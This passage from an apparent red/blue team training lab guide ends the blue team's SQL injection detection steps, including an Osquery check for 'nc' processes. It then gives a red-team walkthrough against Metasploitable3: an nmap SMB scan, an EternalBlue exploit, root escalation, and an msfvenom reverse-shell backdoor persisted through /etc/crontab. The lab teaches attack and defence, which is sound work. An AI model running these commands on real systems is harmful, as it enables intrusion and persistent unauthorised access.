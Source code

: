 **Blue Team**:
- **Detection**:
  - Wazuh: Alerts on SQL injection (`http://localhost:55000`).
  - Zeek: Kibana (`zeek-*`), search HTTP POSTs to `/vulnerabilities/sqli/`.
  - Suricata: `suricata-*` for SQL injection signatures.
  - Osquery: FleetDM query:
    ```sql
    SELECT * FROM processes WHERE name = 'nc';
    ```
- **Response**:
  - TheHive case (`http://localhost:9000`).
  - Cortex IOC enrichment (`http://localhost:9001`).
  - MISP IOCs (`http://localhost`).
  - n8n: Wazuh alert → block Kali IP.
- **Collaboration**:
  - Red team shares SQLmap payloads.
  - Blue team updates Suricata rules.

---

##### Exercise 2: Metasploitable3 SMB (MS17-010) to Root with Meterpreter Backdoor
**Objective**: Exploit SMB vulnerability, gain shell, escalate to root, and plant Meterpreter backdoor.

**Red Team (Kali)**:
1. **Recon**:
   ```bash
   nmap -sV -p 445 --script smb-vuln* metasploitable3
   ```
2. **Exploit**:
   ```bash
   msfconsole
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOSTS metasploitable3
   set LHOST kali
   set LPORT 4444
   run
   ```
3. **Root**:
   ```meterpreter
   getuid
   shell
   sudo -l
   sudo /bin/bash
   whoami  # root
   ```
4. **Backdoor**:
   ```bash
   msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=kali LPORT=4445 -f elf > /tmp/backdoor
   ```
   ```meterpreter
   upload /tmp/backdoor /root/backdoor
   ```
   ```bash
   chmod +x /root/backdoor
   echo "* * * * * /root/backdoor" >> /etc/crontab
   ```
   Listener:
   ```msfconsole
   use exploit/multi/handler
   set PAYLOAD linux/x64/meterpreter/reverse_tcp
   set LHOST kali
   set LPORT 4445
   run
   ```
